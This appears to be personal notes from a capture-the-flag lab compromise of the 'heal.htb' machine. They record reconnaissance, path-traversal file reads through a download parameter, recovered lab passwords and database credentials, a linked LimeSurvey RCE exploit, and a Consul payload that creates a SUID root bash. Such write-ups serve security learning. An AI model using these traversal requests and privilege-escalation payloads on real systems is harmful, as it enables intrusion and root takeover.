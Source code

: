 ___


# *express notes*

express is a web framework for node.js

app.use() # global middleware


function authRequest # this would b a custom middleware


app.get() # routes and request handlers


// Protected route with custom middleware
app.get('/admin', requireAuth, (req, res) => {
  res.send('Welcome to the admin panel!');
});

CORS -> Cross Origin Resource Sharing


CSP -> content security policy

*ENVS*
*development / staging / production*




# ralph appears to be a user on the machine



*this is where it sends data to*

      const url = isSignUp
        ? "http://api.heal.htb/signup"
        : "http://api.heal.htb/signin";



*api is a valid subdomain here*


http://api.heal.htb/signup
http://api.heal.htb/signin
http://api.heal.htb/profile
http://api.heal.htb/resume
/exports

http://api.heal.htb/download
# another subdomain wtf php?
http://take-survey.heal.htb/index.php/552933?lang=en



        <Route path="/profile" element={<Profile />} />
        <Route path="/resume" element={<ResumeForm />} />
        <Route path="/survey" element={<TakeSurvey />} />





*things to do*
-enumerate api dirs more or enumerate take-survery dirs more
-something with the export feature of the pdf file donwload and select files maybe fuck with that URL query params?
-find som vuln on the lime survey
-lime survey url query url parms?
-if i can get JWT secret I can forge it for admin prob
-its trying to connect to a websocket what is that about
-if i refresh network page I can see web socket conn attempts



*errors on console*

Firefox can’t establish a connection to the server at ws://heal.htb/sockjs-node/643/0lr31ue0/websocket.

*there are no cookies the password is being sent on every request*
Password fields present on an insecure ([http://](http:// "http://")) page. This is a security risk that allows user login credentials to be stolen.



*ralph is the admin ig*
Please contact Administrator ( ralph@heal.htb ) for further assistance.



*this subdomain is running lime survey open source tool*
http://take-survey.heal.htb/index.php

/admin page here


*there are creds if I can reach here*
http://take-survey.heal.htb/application/config/config.php

*direct script access is not allowed though*

*installation security hints*
https://www.limesurvey.org/manual/Installation_security_hints


*all the CVE's looks like I need to be authenticated either as admin or ralph probs maybe*

# JWT is signed and uses user id's if i can get that symetric key I can forge them





*web socket shit*




http://heal.htb/sockjs-node/info?t=1754525874025

http://heal.htb/sockjs-node/781/cswm2hss/xhr_streaming?t=1754525978728

ws://heal.htb/sockjs-node/781/ceqdzvmr/websocket


this might be the way here -> should not b live in prod



*some data sent from the dev server*
a["{\"type\":\"hot\"}"]
a["{\"type\":\"log-level\",\"data\":\"none\"}"]
a["{\"type\":\"hash\",\"data\":\"1cc6c4d7b26c571c326e\"}"]
a["{\"type\":\"warnings\",\"data\":[\"./src/components/ResumeForm.js\\nModule Warning (from ./node_modules/eslint-loader/index.js):\\n\\n  Line 18:10:  'error' is assigned a value but never used     no-unused-vars\\n  Line 23:15:  'response' is assigned a value but never used  no-unused-vars\\n\\n\"]}"]



http://api.heal.htb/ <- I did not try GET request here

- **Rails version:** 7.1.4
- **Ruby version:** ruby 3.3.5 (2024-09-03 revision ef084cc8f4) [x86_64-linux]




on download file -> filename parameter can be used to read files!!!!



*users*

ralph:x:1000:1000:ralph:/home/ralph:/bin/bash

postgres:x:116:123:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash

ron:x:1001:1001:,,,:/home/ron:/bin/bash



GET /download?filename=../../Gemfile -> this returns gemfile
so we are 2 dictories in from root of the project


*grab db path*
GET /download?filename=../../config/database.yml HTTP/1.1



*grabbed database here*
GET /download?filename=../../storage/development.sqlite3 HTTP/1.1


*pass for ralph*
147258369


does not log into ssh
*logs into limesurvey*
ralph:147258369



*lime survey version*
[LimeSurvey Community Edition](https://community.limesurvey.org) [Version 6.6.4]


*rce*
https://github.com/N4s1rl1/Limesurvey-6.6.4-RCE



*limesurvey database conn*
return array(
	'components' => array(
		'db' => array(
			'connectionString' => 'pgsql:host=localhost;port=5432;user=db_user;password=AdmiDi0_pA$$w0rd;dbname=survey;',
			'emulatePrepare' => true,
			'username' => 'db_user',
			'password' => 'AdmiDi0_pA$$w0rd',
			'charset' => 'utf8',
			'tablePrefix' => 'lime_',





*connect to db*

-> list all tables with \dt



*this pass worked for ron*
ron:AdmiDi0_pA$$w0rd

*ron owns this?*
/dev/pts/1




*who tf is running this*
http://localhost:3001/ -> ruby on rails -> api.heal.htb

*ralph is running this*
http://localhost:3000/ -> node/express -> heal.htb

*being served by nginx*
      ServerName take-survey.heal.htb
      DocumentRoot /var/www/limesurvey



*these????*
-rw-r--r-- 1 root root 6764 Sep 25  2021 /usr/share/postgresql-common/t/045_backup.t
-rw-r--r-- 1 root root 8015 Nov 25  2024 /usr/share/postgresql/14/man/man1/pg_basebackup.1.gz
-rw-r--r-- 1 root root 3035 Nov 25  2024 /usr/share/postgresql/14/man/man1/pg_verifybackup.1.gz



*okay found something*
http://localhost:8500/ui/server1/services


Consul v1.19.2


*found rce on it on metaspLoit ran module and got root*



*this works to upgrade shell kinda cool*
```
script /dev/null -c bash
```


*cool trick creates a bash shell with SUID set for root access at tmp*
```
      "args": ["bash", "-c", "cp /bin/bash /tmp/0xdf && chmod 6777 /tmp/0xdf"],
```


*run that with -p so it doesn't drop root privs*
```
ron@heal:/dev/shm$ /tmp/0xdf -p
```